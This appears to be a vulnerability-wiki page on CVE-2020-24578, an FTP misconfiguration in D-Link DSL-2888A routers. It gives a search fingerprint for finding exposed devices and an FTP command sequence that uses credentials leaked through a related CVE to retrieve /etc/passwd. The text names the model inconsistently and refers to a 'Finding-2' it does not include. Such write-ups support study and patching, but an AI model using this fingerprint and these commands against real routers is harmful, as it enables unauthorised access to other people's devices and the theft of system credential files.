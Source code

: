 # D-Link DSL-28881A FTP configuration error CVE-2020-24578

## Vulnerability Description

The D-Link DSL-2888A router has file sharing capability, which allows users to share files with other network users by plugging an external drive into the router. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">D-Link DSL-2888A</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">body="DSL-2888A"</span>

## Vulnerability reappears

The premise is to use `D-Link DSL-28881A Information Leakage CVE-2020-24577` to obtain FTP credentials


Use the following command on the FTP client to connect to the FTP service with valid credentials (obtained from Finding-2).
Use the following command to navigate to the root folder.

```plain
ftp xxx.xxx.xxx.xxx
ftp> cd etc 
ftp> get passwd
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/link-5.png)



If you gain something, just like it